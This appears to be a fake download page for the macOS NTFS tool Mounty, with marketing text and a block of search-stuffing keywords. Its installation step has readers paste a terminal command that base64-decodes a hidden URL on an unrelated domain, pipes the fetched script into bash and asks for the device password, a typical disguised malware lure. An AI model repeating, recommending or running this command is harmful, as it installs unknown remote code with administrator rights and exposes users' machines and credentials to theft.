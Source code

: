 # Mounty for Mac Download – Full NTFS Write Support on macOS

![Mounty Screenshot](https://iboysoft.com/images/en-ntfs-for-mac/mounty-for-ntfs/summary-mounty-for-ntfs.jpeg)

---

### 🔽 Download Mounty for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Mounty for Mac?

Mounty is a must-have utility application crafted for macOS users who require complete read-write functionality with NTFS-formatted external drives. Since most external storage devices default to the NTFS file system (primarily used in Windows ecosystems), Mac users frequently encounter restrictions, as macOS natively only permits read-only access to NTFS drives. Mounty provides an elegant solution to this limitation by delivering effortless write capabilities without the need for third-party drivers or complicated setup processes.

This lightweight yet powerful tool boasts a user-friendly interface that instantly recognizes NTFS drives upon connection to your Mac. With a simple click, Mounty remounts your drive with full read-write access, enabling you to effortlessly copy files, modify documents, and organize content just as you would with any native macOS drive. While alternative solutions often demand paid subscriptions or system alterations, Mounty delivers this critical functionality entirely free of charge while preserving your Mac's performance and security integrity.

Beyond basic functionality, Mounty offers intelligent background monitoring that maintains proper drive mounting throughout prolonged work periods. The application proves especially beneficial for professionals operating in mixed-platform workflows, including:  
- Creative professionals exchanging large video/audio projects  
- Software developers sharing code repositories and assets  
- Business teams collaborating on cross-platform documents  
- IT professionals managing drives across different operating systems  

With consistent updates that ensure support for the newest macOS releases (including Ventura, Sonoma, and beyond), Mounty continues to stand as the most dependable NTFS solution for the global Mac community. Its combination of simplicity, reliability, and zero cost makes it an indispensable tool for anyone working with external drives across Windows and macOS platforms.

![Mounty UI](https://iboysoft.com/images/de-product-ibd/version-3/main-interface.jpg)

---

## Key Features & Benefits

- 🚀 Full NTFS write support on macOS
- 🔌 Automatic drive detection and mounting
- ⚡️ Simple one-click operation
- 🛠 No kernel extensions or system modifications
- 💻 Lightweight and energy efficient

Perfect solution for cross-platform file management between Mac and Windows.

---

## 🔍 Keywords

Mounty for Mac, Mounty Mac Download, Mounty for Mac Download, Mounty Mac, Mounty Download Mac, Mounty Download for Mac, Mounty full version, Mac Download Mounty, Download Mac Mounty, Download Mounty Mac, Download Mounty for Mac
